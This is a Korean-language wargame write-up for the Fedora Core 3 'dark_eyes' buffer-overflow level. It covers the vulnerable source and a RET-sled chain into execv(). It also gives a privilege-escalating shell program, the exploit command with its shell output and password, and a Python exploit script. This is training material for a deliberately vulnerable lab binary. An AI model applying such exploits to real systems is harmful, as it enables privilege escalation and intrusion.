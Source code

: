 ```yaml
---
title: "[FC3]Level2. dark_eyes"
tags: [Wargame, Fedora Catle 3, Write-up]
author: eli_ez3r
key: 20180902
modify_date: 2018-09-02
article_header:
  type: cover
  image:
    src: 
---
```


## Keyword : RET Sleding

```c
/*
  The Lord of the BOF : The Fellowship of the BOF
  - dark_eyes
  - Local BOF on Fedora Core 3
  - hint : RET sleding
*/

int main(int argc, char *argv[])
{
  char buffer[256];
  char saved_sfp[4];

  if(argc < 2){
    printf("argv error\n");
    exit(0);
  }

  // save sfp
  memcpy(saved_sfp, buffer+264, 4);

  // overflow!!
  strcpy(buffer, argv[1]);

  // restore sfp
  memcpy(buffer+264, saved_sfp, 4);

  printf("%s\n", buffer);
}
```

Cannary 보호기법을 흉내낸 코드 같다. 

sfp에 담겨있는 값을 saved_sfp에 저장해두고 strcpy실행 이후 sfp를 다시 복원시킨다.

따라서 앞에 문제에서 사용했던 FakeEBP는 사용 불가능하다.



RET Sleding이라는 힌트가 있어서 EBP 아래부분을 살펴보았다.

<img src="http://eliez3r.synology.me/assets/img/writeup/fc3/2.dark_eyes/image-20180807162316255.png" width="500px">

EBP+28 부분에 NULL값이 존재하였다. 이는 매우 중요한 값으로 사용 가능하다.

strcpy함수로 NULL값을 넘겨주는 것은 불가능 하기 때문에, 스택상에 NULL값을 이용하면 된다.

execv()함수를 이용할 때 인자가 끝났다는 표시를 NULL값으로 확인하기 때문에 NULL 앞에 값은 execv의 인자로 사용하면 된다.



<img src="http://eliez3r.synology.me/assets/img/writeup/fc3/2.dark_eyes/image-20180807171320581.png" width="600px">

위 사진처럼 RET에 RET명령어를 3개를 넣고, execv()함수 주소를 넣으면 execv()+8부분을 인자값으로 실행한다.



그러면 0x83eff4부분에 무슨 값이 들어 있는지 확인해보자.

```sh
(gdb) x/x 0x83eff4
0x83eff4 <svcauthsw+712>: 0x0083ed3c
```

0x83ed3c라는 값이 들어있다.

그러면 이제 iron_grem문제처럼 심볼릭 링크를 이용하여 파일 이름을 83ed3c로 만들고 진행하면 될 것 같다.



페이로드 준비물

- ret가젯 주소
- execv함수 주소 

```sh
[iron_golem@Fedora_1stFloor ~]$ objdump -S dark_eyes | grep ret
 80482fe: c3                    ret
 80483a4: c3                    ret
 80483d9: c3                    ret
------ 생략 ------
```

dark_eyes 바이너리 안에 ret명령어 가젯들을 보여준다. 이중 하나 고르자.



```sh
(gdb) p execv
$1 = {<text variable, no debug info>} 0x7a55d0 <execv>
```

execv 함수도 gdb상에서 구해주자.



- ret가젯 주소 : 0x80482fe
- execv함수 주소 : 0x7a55d0



이제 권한 상승하여 쉘을 띄우는 프로그램을 만들자.

```c
[iron_golem@Fedora_1stFloor ~]$ cat tmp.c
#include<stdio.h>

int main(){
  setreuid(geteuid(), geteuid());
  system("/bin/sh");
  return 0;
}
```



```sh
[iron_golem@Fedora_1stFloor ~]$ gcc -o $(python -c 'print "\x3c\xed\x83"') tmp.c
```

ln -s 를 이용하여 하는 방법도 있지만, gcc로 컴파일 할때 파일 이름 자체를 바꾸는 방법을 사용해 봤다.

> ln -s 과정을 생략 할 수 있다.



```sh
[iron_golem@Fedora_1stFloor ~]$ ./dark_eyes `python -c 'print "A"*268+"\xfe\x82\x04\x08"*3+"\xd0\x55\x7a\x00"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�s������Uz
sh-3.00$ id
uid=502(dark_eyes) gid=501(iron_golem) groups=501(iron_golem) context=user_u:system_r:unconfined_t
sh-3.00$ my-pass
euid = 502
because of you
```

payload : `| buffer(264)+dummy(4) | ret Gadget*3 | execv() |` 



ex도 짜보자.

```python
import struct
import os

p32 = lambda x : struct.pack("<I", x)

target = "/home/iron_golem/dark_eyes"

ret = 0x80482fe
execv = 0x7a55d0

payload  = "A"*264  # buffer + dummy
payload += "B"*4  # SFP
payload += p32(ret)*3 # ret * 3
payload += p32(execv) # execv

os.execv(target, (target, payload[:-1]))
```



**dark_eyes / because of you**